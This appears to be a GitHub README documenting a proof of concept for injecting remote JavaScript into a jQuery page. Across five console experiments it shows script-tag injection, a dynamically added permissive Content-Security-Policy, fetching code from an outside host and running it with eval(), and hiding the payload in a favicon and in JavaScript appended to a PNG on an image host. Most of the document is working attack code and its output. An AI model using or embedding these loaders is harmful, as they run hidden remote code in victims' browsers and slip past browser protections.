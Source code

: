 # xss-injection-test

This project is a prof-of-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget

We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>
```

## Code to inject
The goal is to inject the code of this file on the page:

https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js


# First try (Brave)

we execute in console:

```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

### Result:

```
VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
```

## Second try. Add dinamically CSP

We execute in console

```javascript
function dynamicallyInsertCSP() {
        let metaElement = document.createElement("meta");
        metaElement.setAttribute("content", "default-src 'self' 'unsafe-inline' *.githubusercontent.com;")
        metaElement.setAttribute("http-equiv", "Content-Security-Policy");
        document.head.appendChild(metaElement);
};

dynamicallyInsertCSP();

function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

And we check we have this tag at the HEAD:

```
<meta content="default-src 'self' 'unsafe-inline' *.githubusercontent.com;" http-equiv="Content-Security-Policy">
```

But when executing injection we get the same result

## Third try. Import as text, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

in this case we get the console message:

```
owned
```

This method works event wiouth creating the META tag!

## Fourth try. Import as image, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/favicon.ico?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

javascript code is executed

## Fitht test. Javascript appened to a PNG image located in an image host. Works

In this case a piece of JsvsScript code is attached to a legit PNG file

```
    // Execute call to download external script
    $.ajax({
      url: "https://i.ibb.co/9ZtQ16B/icon.png?" + new Date().getTime(),
      success: function (data) {
        // extract the plain text from the end of the image
        let myscript = data.slice(22505);
        // Execute it
        eval(myscript);
      },
    });
```
